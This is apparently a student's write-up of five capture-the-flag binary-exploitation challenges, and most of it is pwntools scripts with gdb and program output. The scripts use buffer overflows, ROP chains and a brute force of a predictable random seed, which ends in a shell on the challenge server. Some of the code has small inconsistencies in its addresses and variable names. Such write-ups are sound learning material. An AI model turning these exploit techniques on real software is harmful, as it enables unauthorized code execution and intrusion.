

# 1. Performative
> README.md
- Steps to launch:
	To build and start.

		- First `cd` into the `src` directory. Then run:

```bash
docker-compose up --build -d
```

		Connect to the challenge with:
```
nc localhost 1337 (For me it was 5000)
```
	
		After solving locally, connect to the challenge with:
```
nc performative.nitephase.live 56743
```

## Solve:
- First I launched the challenge locally and was shown this
```zsh
sparsh@archlinux ~/ctf/performative/src $ ./perf
### Welcome to the performative male/female parade! ###

Yk what performative people like? just a plain ol' bof!

Lets just generate a buffer then ig?

Buffer:
```
- The first thing I wanted to do was to check the buffer limit, as no source code was provided, I could either check with `gdb` or just trial and error.
- After a few trial and error attempts I could see that the program threw a segment violation after a size of 40 characters.
```zsh
sparsh@archlinux ~/ctf/performative/src $ ./perf
### Welcome to the performative male/female parade! ###

Yk what performative people like? just a plain ol' bof!

Lets just generate a buffer then ig?

Buffer: 1234567890123456789012345678901234567890
Generating your buffer...

Your custom buffer:
========================
1234567890123456789012345678901234567890
[1]    332622 segmentation fault (core dumped)  ./perf
```
- After this I checked the `objdump` of the binary and was able to find three functions of use which were `main`, `printFlag` and `win` on the address `0x4012db`,  `0x4011e9` and `0x401275` respectively.
- Having done a similar challenge before, I could incur that adding the address of a function at the end of a buffer overflow can trick the program into running that function.
- So for that I created a small python script to connect to the local instance first.
```python
from pwn import * 

nc = remote('localhost', 5000)

print(nc.recvline())

sendpayload = b'1'*40 + p64(0x4011e9)

nc.sendline(sendpayload)
nc.recvuntil(b':')


for i in range(6): 
    print(nc.recvline())

nc.close()

```
- This resulted in the following-
```zsh
sparsh@archlinux ~/ctf/performative/src $ python3 solve.py
[+] Opening connection to localhost on port 5000: Done
b'### Welcome to the performative male/female parade! ###\n'
b' Generating your buffer...\n'
b'\n'
b'Your custom buffer:\n'
b'========================\n'
b'1111111111111111111111111111111111111111\xe9\x11@\n'
b'nite{fake_flag}\n'
[*] Closed connection to localhost port 5000
```
- And through that I could get the content of `flag.txt`
- Now changing the port to the actual port
```python
from pwn import * 

nc = remote('performative.nitephase.live', 56743)

print(nc.recvline())

sendpayload = b'1'*40 + p64(0x4011e9)

nc.sendline(sendpayload)
nc.recvuntil(b':')


for i in range(6): 
    print(nc.recvline())

nc.close()
```
- And through that I got the actual flag.
```zsh
sparsh@archlinux ~/ctf/performative/src $ python3 solve.py
[┬] Opening connection to performative.nitephase.live on port 56743: Trying 4[+] Opening connection to performative.nitephase.live on port 56743: Done
b'### Welcome to the performative male/female parade! ###\n'
b' Generating your buffer...\n'
b'\n'
b'Your custom buffer:\n'
b'========================\n'
b'1111111111111111111111111111111111111111\xe9\x11@\n'
b'nite{th3_ch4l_4uth0r_15_4nt1_p3rf0rm4t1v3}\n'
[*] Closed connection to performative.nitephase.live port 56743
```

## Flag:
```c
nite{th3_ch4l_4uth0r_15_4nt1_p3rf0rm4t1v3}
```

## Notes and Concepts Learnt:
- Practice of scripting

# 2. Property In Manipal
>one executable is provided called `manipal`

## Solve:
- First using the `checksec` on the executable command I got this output
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	 Fortifiable	 FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   35 Symbols	  No	0	 	 3	 	 manipal
```
- Here since `NX` is enabled, we cannot run shell code on the stack and the heap
- Also here PIE was disabled and no stack canary was found.
- And also having fortify disabled meant that functions like `gets` and `strcpy` are also unsafe
- After searching around the bit on the internet regarding this combination, I got to know that in problems like these, the thing used is `ROP` which is `Return Oriented Programming`
	- It’s a technique attackers use when they cannot execute their own shellcode (because of **NX protection**), but they can control the return address on the stack.
- Looking at the video by `liveoverflows`, I could understand the method and created this script to complete this challenge.
- All the addresses I got using `objdump` and used `gdb` to get their addresses.
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  putchar@plt
0x0000000000401040  puts@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  read@plt
0x0000000000401080  gets@plt
0x0000000000401090  fflush@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x0000000000401196  win
0x00000000004011ac  vuln
0x000000000040124e  main
0x00000000004012cc  _fini
```
- The offset could be easily calculated using `gdb-pwndbug`.
- This was the script I created:
```python
from pwn import *

nc = remote('propertyinmanipal.nitephase.live', 42586)

vuln = p64(0x4011ac)
win = p64(0x401196)
main = p64(0x40124e)

ret_addr = p64(0x040117f)

payload = b"A"*72 + ret_addr + win

nc.sendlineafter(b'Enter your name to signup for the property:', b'something')

nc.sendlineafter(b'Enter the amount for customizations', payload)

nc.interactive()
```
- This was the output I got which had the flag:
```
thecosmic@fedora ~/Desktop/prop $ python3 solve.py
[+] Opening connection to propertyinmanipal.nitephase.live on port 42586: Done
[*] Switching to interactive mode
: nite{ch0pp3d_ch1n_r34lly_m4d3_2025_p34k_f0r_u5}

[*] Got EOF while reading in interactive
```

## Flag:
```
 nite{ch0pp3d_ch1n_r34lly_m4d3_2025_p34k_f0r_u5}
```

## Notes and Concepts Learnt:
- I learnt how to attack using `ROP`
- I learnt how is `ROP` used.

# 3. Imma Dev

> An executable file was provided

## Solve:
- First I tried to run the program
```bash
thecosmic@fedora ~/Desktop/immadev/src $ ./immaDeveloper
Hi I'm sudonymouse!
I'm learning development, checkout this binary!
Option 1: Hello <USER>
Option 2: Flag(maybe?)
Option 3: Log into my binary!
2
Error: Option 2 requires root privileges HAHA
thecosmic@fedora ~/Desktop/immadev/src $ ./immaDeveloper
Hi I'm sudonymouse!
I'm learning development, checkout this binary!
Option 1: Hello <USER>
Option 2: Flag(maybe?)
Option 3: Log into my binary!
1
Input your name: s
Hi s
thecosmic@fedora ~/Desktop/immadev/src $ ./immaDeveloper
Hi I'm sudonymouse!
I'm learning development, checkout this binary!
Option 1: Hello <USER>
Option 2: Flag(maybe?)
Option 3: Log into my binary!
3
Input Username:
s
Enter Password:
s
lmeow i forgot to make the db
```
- This seemed to be unfruitful, I felt this was one of the programs in which you had input a specific option or a combination which prompted to the flag as it showed as one of the options in the `menu` like main of the program.
- So I decompiled the binary using `dogbolt` and exactly as my guess, the function that the binary uses to print and work these options looked to be exploitable
```c
void handleOption(void)

{
  int iVar1;
  bool bVar2;
  __uid_t _Var3;
  long *plVar4;
  ostream *poVar5;
  long in_FS_OFFSET;
  int local_5d4;
  int local_5d0;
  int local_5cc;
  string local_5c8 [32];
  istringstream local_5a8 [384];
  int local_428 [258];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_5d0 = 0;
  std::string::string(local_5c8);
                    // try { // try from 001024a2 to 001024c4 has its CatchHandler @ 00102698
  std::getline<char,std::char_traits<char>,std::allocator<char>>((istream *)std::cin,local_5c8);
  std::istringstream::istringstream(local_5a8,local_5c8,8);
  while( true ) {
    plVar4 = (long *)std::istream::operator>>((istream *)local_5a8,&local_5d4);
    bVar2 = std::ios::operator_cast_to_bool((ios *)((long)plVar4 + *(long *)(*plVar4 + -0x18)));
    if ((bVar2) && (local_5d0 < 0x100)) {
      bVar2 = true;
    }
    else {
      bVar2 = false;
    }
    if (!bVar2) break;
    if ((local_5d4 < 1) || (3 < local_5d4)) {
                    // try { // try from 001024f0 to 00102625 has its CatchHandler @ 00102684
      poVar5 = std::operator<<((ostream *)std::cout,"Ignoring invalid option: ");
      poVar5 = (ostream *)std::ostream::operator<<(poVar5,local_5d4);
      std::ostream::operator<<(poVar5,std::endl<char,std::char_traits<char>>);
    }
    else {
      local_428[local_5d0] = local_5d4;
      local_5d0 = local_5d0 + 1;
    }
  }
  if ((local_428[0] == 2) && (_Var3 = geteuid(), _Var3 != 0)) {
    bVar2 = true;
  }
  else {
    bVar2 = false;
  }
  if (bVar2) {
    poVar5 = std::operator<<((ostream *)std::cout,"Error: Option 2 requires root privileges HAHA");
    std::ostream::operator<<(poVar5,std::endl<char,std::char_traits<char>>);
  }
  else {
    for (local_5cc = 0; local_5cc < local_5d0; local_5cc = local_5cc + 1) {
      iVar1 = local_428[local_5cc];
      if (iVar1 == 3) {
        login();
      }
      else if (iVar1 < 4) {
        if (iVar1 == 1) {
          sayHello();
        }
        else if (iVar1 == 2) {
          printFlag();
        }
      }
    }
  }
  std::istringstream::~istringstream(local_5a8);
  std::string::~string(local_5c8);
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}
```
	 In one the else statements, It could be seen that the printFlag() function was called
-  Specifically this section here
```c
 if (bVar2) {
    poVar5 = std::operator<<((ostream *)std::cout,"Error: Option 2 requires root privileges HAHA");
    std::ostream::operator<<(poVar5,std::endl<char,std::char_traits<char>>);
  }
  else {
    for (local_5cc = 0; local_5cc < local_5d0; local_5cc = local_5cc + 1) {
      iVar1 = local_428[local_5cc];
      if (iVar1 == 3) {
        login();
      }
      else if (iVar1 < 4) {
        if (iVar1 == 1) {
          sayHello();
        }
        else if (iVar1 == 2) {
          printFlag();
        }
      }
    }
  }
```
- To get the flag, first we had to make sure that the variable `bvar2` is false, that could be done by running the sayHello() function and then `ivar1` had to be `2`
- To achieve this, we had to input `1 2` at the same time when it asked us to choose which function or command to use
- Using that, I got the following output on the `nc` port provided
```bash
thecosmic@fedora ~/Desktop/immadev/src $ nc immadeveloper.nitephase.live 61234
Hi I'm sudonymouse!
I'm learning development, checkout this binary!
Option 1: Hello <USER>
Option 2: Flag(maybe?)
Option 3: Log into my binary!
1 2
Input your name: sparsh
Hi sparsh
nite{n0t_4ll_b1n3x_15_st4ck_b4s3d!}
```

## Flag:
```
nite{n0t_4ll_b1n3x_15_st4ck_b4s3d!}
```

## Notes and Concepts Learnt:
- Challenges like these can be easily understood and solved using `ghidra`, from next challenge on wards, it is more advisable to use that.

# 4. IQ test
> one `elf` was provided

## Solve:
- First executing the binary provided, I was asked some basic questions regarding binaries.
```bash
thecosmic@fedora ~/Desktop/challs/iqtest $ ./chall
=========== Welcome to the Exploitation Dojo ==============
You must first prove your knowledge if you want access to my secrets
Question 1: In an x86-64 Linux architecture, a function reads its arguments from the stack, left-to-right. True or False?
[1] True
[2] False
> 2
Correct!
Question 2: In an x86-64 Linux architecture, which register holds the first integer or pointer argument to a function?
[1] RDI
[2] RSI
[3] RAX
[4] RCX
> 1
Correct!
Question 3: In an x86-64 Linux architecture, where is the return value of a function typically stored?
[1] RDX
[2] RSP
[3] RBP
[4] RAX
> 4
Correct!
You may have passed my test but I must see you display your knowledge before you can access my secrets
Lesson 1: For your first challenge you have to simply jump to the function at this address: 0x401401
```
- Now this is where the actual exploit starts, It asked me to jump to the function at address `0x401401`, looking through `objdump` the function was called `win1`
```bash
thecosmic@fedora ~/Desktop/challs/iqtest $ objdump -d ./chall | grep "401401"
0000000000401401 <win1>:
  401401:	f3 0f 1e fa          	endbr64
  401786:	48 8d 35 74 fc ff ff 	lea    -0x38c(%rip),%rsi        # 401401 <win1>
```
- To do so, I first calculated the offset of the buffer I had to exploit using `gdb-pwndbg`
```bash
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
.....
Lesson 1: For your first challenge you have to simply jump to the function at this address: 0x401401
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
.....
 RBP  0x6161616161616173 ('saaaaaaa')
 RSP  0x7fffffffd768 ◂— 'taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa\n'
 RIP  0x4017d5 (main+519) ◂— ret
.....
pwndbg> cyclic -l saaaaaaa
Finding cyclic pattern of 8 bytes: b'saaaaaaa' (hex: 0x7361616161616161)
Found at offset 144
```
	Although the offset found was 144, the exploit seemed to work at 152, this could be due to padding
- For the first solve, I made this script which easily worked-
```python
#solve1
from pwn import *

elf = ELF("./chall")

# nc = remote("iqtest.nite.live", 51823)
nc = process("./chall")

ret = p64(0x40101a)

offset = 152


spayload = b'A'*offset + p64(0x401401) + ret

nc.sendlineafter(b'>', b'2')
nc.sendlineafter(b'>', b'1')
nc.sendlineafter(b'>', b'4')

nc.recvuntil(b"0x401401")

nc.sendline(spayload)

nc.interactive()
```
- This was the output I got,
```bash
thecosmic@fedora ~/Desktop/challs/iqtest $ python3 solve.py
[*] '/home/thecosmic/Desktop/challs/iqtest/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Starting local process './chall': pid 25210
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01\x14@\x00\x00\x00\x00\x00\x1a\x10@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

You have passed the first challenge. The next one won't be so simple.
Lesson 2 Arguments: Research how arguments are passed to functions and apply your learning. Bring the artifact of 0xDEADBEEF to the temple of 0x401314 to claim your advance.nite{fake_flag_3}
Continue
```
	This resulted in the first flag
- For the second payload, first I had to figure out the `rop` gadget for `rdi` register which was found to be at `0x4017d6
```bash
thecosmic@fedora ~/Desktop/challs/iqtest $ objdump -d ./chall | grep "pop_rdi"
00000000004017d6 <pop_rdi_ret>:
```
- Now adding this to the script resulted in the second flag to pop-
```python
offset2 = 24 + 8 + 8
rdi_rop = p64(0x4017d6)
spayload2 = b'B'*offset2 + ret + pop_rdi + p64(0xdeadbeef) + p64(0x401304)
nc.sendline(spayload2)
```
	The address of the win2 function was used here and the offset was calculated similarly to last time
- Now this was the output:
```bash
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@\x00\x00\x00\x00\x00\x01\x14@\x00\x00\x00\x00\x00'
b'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x1a\x10@\x00\x00\x00\x00\x00\xd6\x17@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\x14\x13@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

You have passed the first challenge. The next one won't be so simple.
Lesson 2 Arguments: Research how arguments are passed to functions and apply your learning. Bring the artifact of 0xDEADBEEF to the temple of 0x401314 to claim your advance.nite{fake_flag_3}
Continue:
You have done well, however you still have one final test. You must now bring 3 artifacts of [0xDEADBEEF] [0xDEAFFACE] and [0xFEEDCAFE]. You must venture out and find the temple yourself. I believe in you
nite{fake_flag_1}
Final Test:
```
	Captured the second flag
- Now for the final flag, I was supposed to map these the given `artifacts` to different registers being `rdi`, `rsi` and `rdx`
- I first found the `rop` gadget for these registers,  the offset to overflow the buffer and the address of `win3`
- Adding this to the script
```python
rsi_rop = p64(0x4017d8)
rdx_rop = p64(0x4017da)
win3 = p64(0x4011e6)
offset3 = 56

spayload3 = b'C'*offset3 + ret + rdi_rop + p64(0xdeadbeef) + rsi_rop + p64(0xdeafface) + rdx_rop + p64(0xfeedcade) + win3
```
- This was the output recieved-
```bash
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@\x00\x00\x00\x00\x00\x01\x14@\x00\x00\x00\x00\x00'
b'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x1a\x10@\x00\x00\x00\x00\x00\xd6\x17@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\x14\x13@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

You have passed the first challenge. The next one won't be so simple.
Lesson 2 Arguments: Research how arguments are passed to functions and apply your learning. Bring the artifact of 0xDEADBEEF to the temple of 0x401314 to claim your advance.nite{d1d_1_g3t_th3_fl4g?}
Continue:
You have done well, however you still have one final test. You must now bring 3 artifacts of [0xDEADBEEF] [0xDEAFFACE] and [0xFEEDCAFE]. You must venture out and find the temple yourself. I believe in you
nite{1_th1nk_1_f1n4lly_g0t_my_fl4g_n0w;)}
Final Test:
Congratulations. You are deserving of you reward

nite{1m_th3_r34l_fl4g_blud_4l50_6-1_1s_m0r3_tuf}
```

## Flag:
```
nite{1m_th3_r34l_fl4g_blud_4l50_6-1_1s_m0r3_tuf}
```
## Notes and Concepts Learnt:
- ROP with arguments

# 5. Hungry
> one elf file was provided name `burgers_are_mid`

## Solve:
- First I executed the binary on my own system, it seemed to be of no use. It acted like a menu which prepares your burger. I went through all the options, and then the program exited.
- Then I opened up the executable in `ghidra`, and saw all the useful functions in the program.
```
0x0000000000401296  manager_control_panel
0x0000000000401393  grilled
0x00000000004013ad  fried
0x00000000004013c7  take_order
0x0000000000401553  choose_style
0x0000000000401628  main
```
- This is the function `take_order` de-compiled:
```c
void take_order(void)

{
   long in_FS_OFFSET;
   byte local_21;
   ulong local_20;
   ulong local_18;
   long local_10;
   
   local_10 = *(long *)(in_FS_OFFSET + 0x28);
   local_20 = 0;
   puts("What would you like on your Bit Burger?");
   for (local_18 = 0; local_18 < 0x18; local_18 = local_18 + 1) {
       printf(" - %s (y/n)? ",*(undefined8 *)(ingredients + local_18 * 8));
       __isoc99_scanf("%c%*c",&local_21);
       if (local_21 == '$') {
           manager_control_panel();
       }
       if ((local_21 != 0x79) && (local_21 != 0x6e)) {
           printf("I\'m not sure what \'%c\' means. Goodbye!\n",(ulong)local_21);
       }
       if (local_21 == 'y') {
           local_20 = local_20 | (long)(1 << ((byte)local_18 & 0x1f));
       }
   }
   printf("\nGot it! One Bit Burger with ");
   for (local_18 = 0; local_18 < 0x18; local_18 = local_18 + 1) {
       if (((long)(1 << ((byte)local_18 & 0x1f)) & local_20) != 0) {
           printf("%s, ",*(undefined8 *)(ingredients + local_18 * 8));
       }
   }
   puts("comin\' right up!\n");
   if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                                     /* WARNING: Subroutine does not return */
       __stack_chk_fail();
   }
   return;
}
```
- This was the interesting part in that function:
```c
   puts("What would you like on your Bit Burger?");
   for (local_18 = 0; local_18 < 0x18; local_18 = local_18 + 1) {
       printf(" - %s (y/n)? ",*(undefined8 *)(ingredients + local_18 * 8));
       __isoc99_scanf("%c%*c",&local_21);
       if (local_21 == '$') {
           manager_control_panel();
       }
       if ((local_21 != 'y') && (local_21 != 0x6e)) {
           printf("I\'m not sure what \'%c\' means. Goodbye!\n",(ulong)local_21);
       }
       if (local_21 == 'y') {
           local_20 = local_20 | (long)(1 << ((byte)local_18 & 0x1f));
       }
   }
```
	This meant that if I put `$` in the input, it will go to the function manager_control_panel
- Doing so I was prompted with a password to be inputted, so again I looked at the code for that function.
```bash
thecosmic@192 ~/Desktop/challs/hungry/hungry/src $ ./burgers_are_mid

Welcome to BitBurger, home of the Bit Burger! May I take your order?

What would you like on your Bit Burger?
 - a bun (y/n)? $
Enter manager access code: 999999
Incorrect code. Get back to work, frycook!
```
- This is function `manager_control_panel` decompiled:
```c
void manager_control_panel(void)

{
   uint uVar1;
   time_t tVar2;
   long in_FS_OFFSET;
   int local_28;
   int local_24;
   long local_20;
   
   local_20 = *(long *)(in_FS_OFFSET + 0x28);
   tVar2 = time((time_t *)0x0);
   uVar1 = getpid();
   srand(uVar1 ^ (uint)tVar2);
   local_24 = rand();
   local_24 = local_24 % 1000000;
   printf("Enter manager access code: ");
   __isoc99_scanf(&DAT_0040214e,&local_28);
   if (local_24 != local_28) {
       puts("Incorrect code. Get back to work, frycook!");
                                     /* WARNING: Subroutine does not return */
       exit(0);
   }
   puts("Access granted, starting management interface.");
   execl("/bin/bash","/bin/bash",0);
   if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                                     /* WARNING: Subroutine does not return */
       __stack_chk_fail();
   }
   return;
}
```
- Here it could be seen that the `srand()` function was used, this function is used to generate pseudo-random numbers which can be found by finding that seed.
	- The seed was calculated by XOR-ing the `pid` of the executable with the current time.
	- Then a random number was generated using this seed.
	- This number was then taken in mod with `1000000` which resulted in the access code required to get manager access.
- I created a script which worked locally, here I had to find a way to use the `srand` function form the `C` library in python, I searched the web and found a `stackoverflow` post, which mentioned the use of libraries from `C`.
	
	
- Script made:
```c
from pwn import *
from ctypes import CDLL
# nc = process("./burgers_are_mid")
nc = remote("hunger.nitephase.live", 53791)
# nc hunger.nitephase.live 53791
libc = CDLL("libc.so.6")
time = int(time.time())

srand = nc.pid ^ time
libc.srand(srand)
code = libc.rand() % 1000000

nc.recvuntil(b'(y/n)?')
nc.sendline(b'$')

nc.recvuntil(b': ')
nc.sendline(str(code))

nc.interactive()           
```
- But there was an issue as I couldn't get the `pid` when I connected to the actual server. Considering it was a 64-bit architecture system to which I connected, the maximum `pid` it could have was `4194304`, so I made the script to use every possible combination with the `pid` and the current time.
```c
from pwn import *
from ctypes import CDLL

nc_local = process("./burgers_are_mid")
# nc hunger.nitephase.live 53791

libc = CDLL("libc.so.6")

time = int(time.time())

for i in range(time, time+1):
    for j in range(0, 4194304):
        srand = j ^ i
        libc.srand(srand)
        code = libc.rand() % 1000000

        # nc = process("./burgers_are_mid")
        nc = remote("hunger.nitephase.live", 53791)
        nc.recvuntil(b'(y/n)?')
        nc.sendline(b'$')

        nc.recvuntil(b': ')
        nc.sendline(str(code))

        if b'frycook' in nc.recv():
            nc.close()
        else:
            print("Code: ", code)
            nc.interactive()
            break
                     
```

- This was the output received:
```bash
thecosmic@192 ~/Desktop/challs/hungry/hungry/src $ python3 solve.py
[+] Starting local process './burgers_are_mid': pid 59382
[+] Opening connection to hunger.nitephase.live on port 53791: Done
/home/thecosmic/Desktop/challs/hungry/hungry/src/solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  nc.sendline(str(code))
Code:  650482
[*] Switching to interactive mode
$
```
- Now I had the access to the server on which the challenge was hosted, I used `ls` to locate the files in the current directory, there was a file named `flag.txt`, using `cat` on that file I was prompted with the flag:
```bash
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
nite{s1ndh1_15_m0r3_f1ll1ng_th4n_bk_or_mcd}
```

## Flag:
```
nite{s1ndh1_15_m0r3_f1ll1ng_th4n_bk_or_mcd}
```

## Notes and Concepts Learnt:
- The brute-force approach seemed a bit hackish, it would be better to figure out another way around this.
- Good practice of `pwning` :)